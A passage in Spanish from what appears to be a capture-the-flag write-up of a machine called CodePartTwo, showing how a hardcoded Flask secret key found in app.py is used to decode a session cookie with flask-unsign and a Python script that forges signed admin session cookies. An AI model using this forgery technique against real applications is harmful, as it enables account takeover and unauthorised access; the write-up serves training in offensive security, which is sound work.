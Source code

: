 Además podemos ver el fichero `app.py` que en realidad es el código de la aplicación web en `Flask` que corre en el `Gunicorn`.

#### Inyectando cookies

En este fichero se encuentra la `app.secret_key= 'S3cr3tK3yC0d3PartTw0'` que firma las cookies de sesión, por lo que intenté `inyectar la cookie del usuario admin` (suponiendo que existiera) para ver sus `code snippets`. Lo primero es decodificar mi cookie de sesión actual:

```bash
flask-unsign --secret 'S3cr3tK3yC0d3PartTw0' --unsign --cookie 'eyJ1c2VyX2lkIjozLCJ1c2VybmFtZSI6Im14c2t5In0.aLmNrw.rA-ENeohmwVx9JYNgBc1l22iNvo'
```

![App.py](images/codeparttwo_app_flask_secret_key.PNG)
![Cookie venv](images/codeparttwo_cookie_env.PNG)
![Cookie unsign](images/codeparttwo_cookie_unsign.PNG)

Si yo soy el `'user_id': 3`, entonces (en caso de existir) la cuenta de `admin` deberia tener `'user_id': 1 o 2`.
El siguiente fragmento de código genera las cookies firmadas:

```python
from flask.sessions import SecureCookieSessionInterface
from flask import Flask

sesion_1 = {'user_id': 1, 'username': 'admin'}
sesion_2 = {'user_id': 2, 'username': 'admin'}

app = Flask(__name__)
app.secret_key = 'S3cr3tK3yC0d3PartTw0'

s = SecureCookieSessionInterface().get_signing_serializer(app)
cookie_1 = s.dumps(sesion_1)
cookie_2 = s.dumps(sesion_2)

print(cookie_1)
print(cookie_2)
```
